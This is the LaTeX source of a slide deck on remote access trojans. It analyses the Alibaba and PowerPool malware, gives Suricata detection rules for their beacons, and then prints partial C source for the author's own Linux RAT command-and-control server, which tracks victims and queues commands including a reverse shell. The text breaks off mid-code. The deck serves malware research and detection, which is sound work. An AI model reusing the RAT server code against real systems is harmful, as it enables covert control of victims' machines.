  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Analysis - When you see it...}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=7cm,keepaspectratio]{whats_wrong_here}
      \caption{When you see it...}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Analysis - The CnC Beacon}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=14cm,keepaspectratio]{alibaba_http}
      \caption{The CnC Beacon}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Analysis - The CnC Beacon}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=14cm,keepaspectratio]{alibaba_http_highlight}
      \caption{The CnC Beacon}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Analysis - Demo Video}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=8cm,keepaspectratio]{show_me_a_demo}
      \caption{Show me a demo!}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware Analysis - What?}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=8cm,keepaspectratio]{what_are_you_doing}
      \caption{Really?}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Wild RATs}
  \framesubtitle{Alibaba Malware}
  \begin{center}
    \begin{tcolorbox}[title=alibaba.rules,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        alert http any any -> \$EXTERNAL_NET any (
          msg:"Alibaba CnC Checkin";
          content:"POST"; http_method;
          content:"Content-type|3a 20|multipart/form-data|3b|boundary="; http_header; fast_pattern;
          pcre:"/\:\d{1,5}/iH";
          content:"Content-Disposition|3a 20|multipart/form-data|3b 20|name=|22|kind|22|";
          content:"Content-Disposition|3a 20|multipart/form-data|3b 20|name=|22|fname|22 3b|";
          content:"|be 02 00 00|BX|00 00 00|PV|9b 8a|U";
          flow:to_server,established;
          reference:url,http://sfkino.tistory.com/70;
          classtype:trojan-activity;
          sid:2000001;
          rev:1;
        )
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{PowerPool Malware Analysis}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=7cm,keepaspectratio]{power_pool_meme}
      \caption{PowerPool Malware}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{PowerPool Malware Analysis - 80e7a7789286d3fb69f083f1a2dddbe6}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=14cm,keepaspectratio]{powerpool_article}
      \caption{PowerPool Whitepaper Article}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{PowerPool Malware Analysis - 80e7a7789286d3fb69f083f1a2dddbe6}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=6cm,keepaspectratio]{really_guy_all_you_got}
      \caption{Really?}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{PowerPool Malware Analysis - 80e7a7789286d3fb69f083f1a2dddbe6}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=9cm,keepaspectratio]{powerpool_anti_debug}
      \caption{PowerPool Anti-Debug / Anti-Analysis}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{PowerPool Malware Analysis - 80e7a7789286d3fb69f083f1a2dddbe6}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=6.5cm,keepaspectratio]{powerpool_main_thread}
      \caption{PowerPool Main Thread}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{PowerPool Malware Analysis - Demo Video}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=7cm,keepaspectratio]{demo_baby}
      \caption{Demo Baby}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{Wild RATs}
  \framesubtitle{PowerPool Malware Analysis - Detection}
  \begin{center}
    \begin{tcolorbox}[title=powerpool.rules,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        alert http any any -> \$EXTERNAL_NET any (
          msg:"PowerPool CnC Heartbeat Beacon";
          content:"POST"; http_method;
          content:"Content-Type|3a 20|application/x-www-form-urlencoded"; http_header; fast_pattern;
          content:"/heart"; http_uri;
          pcre:"/json\=\{\x0a\x20{1,}\x22sessionid\x22\x20{1,}\:\s{1,}
                \x22\{[a-f,0-9]{8}\-[a-f,0-9]{4}\-[a-f,0-9]{4}\-
                [a-f,0-9]{4}\-[a-f,0-9]{12}\}\x22\x0a\}/iP";
          reference:url,https://www.welivesecurity.com/2018/09/05/powerpool-malware-exploits-zero-day-vulnerability/;
          sid:2000002;
          rev:1;
        )
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Wild RATs}
  \framesubtitle{They are good at teamwork!}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=7cm,keepaspectratio]{team_work}
      \caption{Go Team!}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Why Build a RAT?}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=12cm,keepaspectratio]{hackers_meme}
      \caption{Hackers IRL}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Why Build a RAT?}
  \framesubtitle{Because Linux}
  \begin{itemize}
  \item{Linux}
  \item{C Programming Language}
  \item{Learning Experience}
  \item{Find Detection Limitations}
  \item{Research the Linux Malware Ecosystem}
  \item{Some RATs fall Short (NJRat)}
  \item{Because I Can}
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{The Laboratory RAT}
  \begin{center}
    
\includegraphics[width=5cm,keepaspectratio]{lab_rat}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{CnC Server}
  \framesubtitle{In the C Programming Language}
  \begin{itemize}
  \item{Sockets}
    \begin{itemize}
    \item{Create}
    \item{Bind}
    \item{Listen}
    \item{Accept}
    \item{Receive}
    \item{Process}
    \item{Send}
    \end{itemize}
  \item{PThreads}
  \end{itemize}
\end{frame}

\begin{frame}
  \frametitle{CnC Server}
  \framesubtitle{It can be painful when written in C}
  \begin{center}
    \begin{figure}
      
\includegraphics[width=10cm,keepaspectratio]{everything_hurts}
      \caption{Leslie Knope}
    \end{figure}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Data Structure for Victims/Clients}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        #ifndef NET_CLIENT_BEACON
        typedef struct{
          int xor_key;                      // Packet XOR Key
          sys_info_t sysinfo;               // System Info Data Structure
        } net_client_beacon_t;
        #define NET_CLIENT_BEACON
        #endif

        #ifndef SYS_INFO
        typedef struct{
          char uuid[SYS_UUID_SIZE];         // Victim UUID
          char ip[SYS_PUBLIC_IP_SIZE];      // Public IP Address
          char username[SYS_USERNAME_SIZE]; // Username
          char hostname[SYS_HOSTNAME_SIZE]; // Hostname
          `char release[SYS_RELEASE_SIZE];  // Kernel Version
          char arch[SYS_ARCH_SIZE];         // Architecture
          int cpu_usage;                    // CPU Usage
          int ping;                         // Ping / Internet Speed
        } sys_info_t;
        #define SYS_INFO
        #endif
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Create Victims Memory Data Structure}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        net_client_beacon_t **net_create_victims(){
          int count = NET_MAX_CLIENTS;                      // Get Max Supported Clients Count
          net_client_beacon_t **v;                          // Create Pointer to Data Structure
          v = malloc(count * sizeof(net_client_beacon_t));  // Allocate Memory for Data Array
          if (v == NULL){                                   // Error Checking
            fprintf(stderr, "[x] %s\n", strerror(errno));
            exit(EXIT_FAILURE);
          }
          for (int i = 0; i < count; i++){                  // Set to NULL
            v[i] = NULL;
          }
          return v;                                         // Return Pointer to Data Structure Array
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Data Structure for Command Queue}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        #ifndef NET_SERVER_CMD_BEACON
        typedef struct{
          int xor_key;                   // XOR Key
          bool status;                   // Status
          int command;                   // Command
          char uuid[SYS_UUID_SIZE];      // UUID
          char data[NET_MAX_DATA_SIZE];  // Data
        } net_server_beacon_t;
        #define NET_SERVER_CMD_BEACON 0
        typedef struct{
          char host[NET_DOMAIN_MAX];     // Host
          int port;                      // Port
        } net_server_cmd_shell_t;
        #define NET_SERVER_CMD_SHELL 1
        #endif
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Create Commands Memory Data Structure}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        net_server_beacon_t **net_create_commands(){
          int count = NET_MAX_CLIENTS;                     // Get Max Supported Clients Count
          net_server_beacon_t **v;                         // Create Pointer to Data Structure
          v = malloc(count * sizeof(net_server_beacon_t)); // Allocate Memory for Data Array
          if (v == NULL){                                  // Error Checking
            fprintf(stderr, "[x] %s\n", strerror(errno));
            exit(EXIT_FAILURE);
          }
          for (int i = 0; i < count; i++){                 // Set to NULL
            v[i] = NULL;
          }
          return v;                                        // Return Pointer to Data Structure Array
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Command and Control in C Sockets 0}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        bool net_server(int port,
                        net_client_beacon_t **p_victims,    // Victims Memory Array
                        net_server_beacon_t **p_commands){  // Commands Memory Array
          int server_fd, client_fd;
          struct sockaddr_in server, client;
          server_fd = socket(AF_INET, SOCK_STREAM, 0);      // Create Socket File Descriptor
          if (server_fd < 0){                               // Error Checking for Socket
            fprintf(stderr, "[x] %s\n", strerror(errno));
            return false;
          }
          if (setsockopt(server_fd,                         // Socket File Descriptor
                         SOL_SOCKET,                        // Manipulate Socket Options
                         SO_REUSEADDR,                      // Permit Local Host Reuse
                         &(int){ 1 },
                         sizeof(int)) < 0){
            fprintf(stderr, "[-] %s\n", strerror(errno));
          }
          memset(&server, 0, sizeof(server));              // Zero Out Server Struct
          server.sin_family      = AF_INET;                // Set TCP Type
          server.sin_port        = htons(port);            // Set Port
          server.sin_addr.s_addr = htonl(INADDR_ANY);      // Any Addresses
          // continued here...
      }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Command and Control in C Sockets 1}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
          if (bind(server_fd, (struct sockaddr *) &server, sizeof(server)) < 0){ return false; } // Bind to Socket
          if (listen(server_fd, NET_MAX_CLIENTS)  != 0){ return false; }                         // Listen to Socket
          while (true){
            socklen_t client_len = sizeof(client);
            net_t_client_args_t *p_net_t_client_args = malloc(sizeof(net_t_client_args_t));
            while (( client_fd = accept(server_fd,                                      // Socket File Descriptor
                                        (struct sockaddr *)&client,                     // Client SockAddr Struct
                                        (socklen_t *)&client_len))){
              pthread_t t_client;                                                       // Client Thread
              p_net_t_client_args->client_fd = client_fd;                               // Send Client File Descriptor
              p_net_t_client_args->p_victims = p_victims;                               // Pointer to Victims Struct
              p_net_t_client_args->p_commands = p_commands;                             // Pointer to Commands Struct
              pthread_attr_t attr_t_client;                                             // Create Thread Attributes
              pthread_attr_init(&attr_t_client);                                        // Initialize Attributes
              pthread_attr_setdetachstate(&attr_t_client, PTHREAD_CREATE_DETACHED);     // Set Detached Attribute
              if (pthread_create(&t_client,
                                 &attr_t_client, net_t_client, p_net_t_client_args) < 0){ // Spawn Client Thread
                return false;
              }
            }
            free(p_net_t_client_args); // Cleanup
          }
          close(client_fd);            // Close Client Socket File Descriptor
          return true;
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Handling Victim Sessions 0}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        void *net_t_client(void *args){
          net_t_client_args_t *p_args = args;
          int sock = p_args->client_fd;
          net_client_beacon_t **p_victims = p_args->p_victims;                             // Get Pointer
          net_server_beacon_t **p_commands = p_args->p_commands;                           // Get Pointer
          net_client_beacon_t *p_net_client_beacon = malloc(sizeof(net_client_beacon_t));  // Allocate Client
          net_server_beacon_t *p_net_server_beacon = malloc(sizeof(net_server_beacon_t));  // Allocate Server
          while (true){
            bool command = false;
            int read = recv(sock, p_net_client_beacon, sizeof(net_client_beacon_t), 0);    // Read Client Beacons
            if (!read){ break; }
            if (read < 0){
              fprintf(stderr, "[-] %s\n", strerror(errno));
              free(p_net_client_beacon);
              pthread_exit(NULL);
            }
            net_update_victims(p_net_client_beacon, p_victims);                           // Update Victim Data
            // contuned ...
          }
        }
      \end{minted}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{CnC Server}
  \framesubtitle{Handling Victim Sessions 1}
  \begin{center}
    \begin{tcolorbox}[title=net.c,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{minted}[fontsize=\tiny]{c}
        for (int i = 0; i < NET_MAX_CLIENTS; i++){
          if (p_commands[i] != NULL &&
              (strcmp(p_net_client_beacon->sysinfo.uuid, // Check Victim UUID
              p_commands[i]->uuid) == 0)){
            command = true;
            if (send(sock, p_commands[i], sizeof(net_server_beacon_t), 0) < 0){
              fprintf(stderr, "[-] %s\n", strerror(errno));
            }
